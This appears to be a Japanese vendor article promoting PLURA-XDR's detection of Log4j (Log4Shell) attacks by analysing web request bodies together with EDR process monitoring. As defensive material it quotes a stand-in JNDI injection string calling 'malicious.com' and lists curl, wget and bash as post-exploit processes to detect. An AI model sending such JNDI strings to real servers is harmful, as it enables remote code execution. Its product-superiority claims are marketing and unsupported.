

## `事例 1` Log4j(Log4Shell) 脆弱性攻撃の検出

### **1️⃣ 既存の脅威ハンティング（SIEM + EDR + NDR + TI）が検出できない理由**
| **比較項目** | **既存の脅威ハンティング（SIEM + EDR + NDR + TI）** | **PLURA Webリクエスト本文分析 + EDR** |
|----------|-------------------------------|-------------------------------|
| **検出方式** | IOC（脅威インテリジェンス）ベースの検出 → 既存のパターンマッチングに依存し、新たな攻撃の検出が困難 | 行動ベースの検出 → Webリクエスト本文と実行動作をリアルタイム分析し、新規攻撃を検出可能 |
| **Webアプリケーション攻撃の検出** | Webリクエストのヘッダー、URL分析のみ可能 → リクエスト本文内の悪意のあるパターンを分析不可 | **Webリクエスト本文をリアルタイム分析し、JNDI呼び出しパターンを検出可能** |
| **ネットワークトラフィック分析** | NDRがSSL復号後にパケット分析は可能だが、リクエスト本文の分析は不可 | **リクエスト本文を分析し、JNDIパターンの有無を確認し検出可能** |
| **エンドポイントセキュリティ** | EDRが実行されたプロセスを検出可能だが、Webアプリケーションで発生した攻撃との関連分析が困難 | **EDRがリモートコード実行（RCE）発生時に、悪意のあるプロセスの実行（Fork, Execve）を検出可能** |

### **2️⃣ 既存の脅威ハンティングが検出できない理由の詳細説明**
1. **SIEM + TI（Threat Intelligence）の限界**  
   - 既存のSIEMおよびTIは**静的IOC（Indicator of Compromise）ベースの検出**に依存している。  
   - つまり、**既知の悪意のあるIP、ドメイン、ファイルハッシュ値を基に検出**するため、Log4jのような**新たな脆弱性を利用した攻撃の検出が困難**。  
   - 攻撃者が**JNDI呼び出しのペイロードを変形（Payload変形）して使用すると、IOCマッチングを回避できる**。  

2. **NDR（ネットワークベースの検出）の限界**  
   - NDRは**SSL復号を通じてネットワークトラフィックを分析可能だが、リクエスト本文（Payload）を詳細に分析できない**。  
   - つまり、`jndi:ldap://malicious.com/exploit` のような**悪意のあるペイロードを含むWebリクエスト本文の分析が不可能**。  
   - ネットワークレベルで悪意のあるトラフィックが発生する可能性はあるが、**ログのコンテキスト（Context）を考慮した分析が難しい**。  

3. **EDR（エンドポイントセキュリティ）の限界**  
   - EDRはWebサーバー内で発生する悪意のあるプロセス実行（`curl`, `wget`, `bash` など）を検出可能。  
   - しかし、**Webアプリケーションで攻撃が開始された原因を直接分析できないため、Webリクエストと実行プロセスの関連性を把握しにくい**。  
   - つまり、**「Webリクエスト → 悪意のあるコード実行」までの攻撃フローを適切に分析できなければ、単なる異常プロセスとして誤検知する可能性がある**。  

---

### **3️⃣ PLURA Webリクエスト本文分析 + EDRによる検出方法**
✅ **1) Webリクエスト本文分析による悪意のあるパターンの検出**  
   - PLURAは**Webリクエスト本文をリアルタイムで分析**し、`jndi:ldap://malicious.com/exploit` のようなパターンを検出可能。  
   - 検索ボックス、ユーザー入力値、HTTPヘッダー、APIリクエスト本文で**異常なLDAP、RMI呼び出しを検出可能**。  
   - 既存のWAFが検出できない**多様なJNDI呼び出しの変形を分析し、回避型攻撃も検出可能**。  

✅ **2) 実行動作ベースの検出とブロック（EDR連携）**  
   - 攻撃が成功し、リモートコード実行（RCE）が発生した場合、  
   - PLURA EDRは**カーネルレベルで新規プロセス生成イベント（Fork, Execve）を検出**。  
   - 例えば、攻撃成功後 `curl`, `wget`, `bash` などのプロセスが実行されると、即座に検知しブロック可能。  

✅ **3) 攻撃フローの相関分析による追加攻撃の遮断**  
   - 既存のIOCベースの検出が困難な攻撃であっても、**LDAP/RMIリクエストの後に特定のプロセスが実行されるパターンを検出し、追加攻撃を事前に遮断可能**。  
   - つまり、攻撃者が**JNDI呼び出しの変形を使用し、シグネチャベースの検出を回避しようとしても、行動分析を通じて検出可能**。  

---
### **4️⃣ Log4j(Log4Shell)攻撃フロー**  

---

### **📌 結論: PLURA Webリクエスト本文分析 + EDRがLog4j攻撃の検出で優れている理由**
✅ **既存の脅威ハンティング（SIEM + EDR + NDR + TI）はIOCベースの検出に依存しているため、Log4jのような新たな攻撃パターンを検出するのが難しい**。  
✅ **PLURA-XDRはWebリクエスト本文を分析し、行動ベースの検出を行うことでLog4j攻撃をリアルタイムで検出可能**。  
✅ **WAFを回避する攻撃、クレデンシャルスタッフィング、API Abuse、ランサムウェアの検出にも対応可能**。  
✅ **EDRとの連携により、カーネルレベルで悪意のあるプロセス実行、Webシェル設置、ファイル改ざん（FIM）を検出し、攻撃者の追加行動を遮断**。  

🔹 **PLURA-XDRは、既存のセキュリティシステムが検出できないゼロデイ攻撃にも対応できる次世代セキュリティプラットフォームです。** 🚀 

---
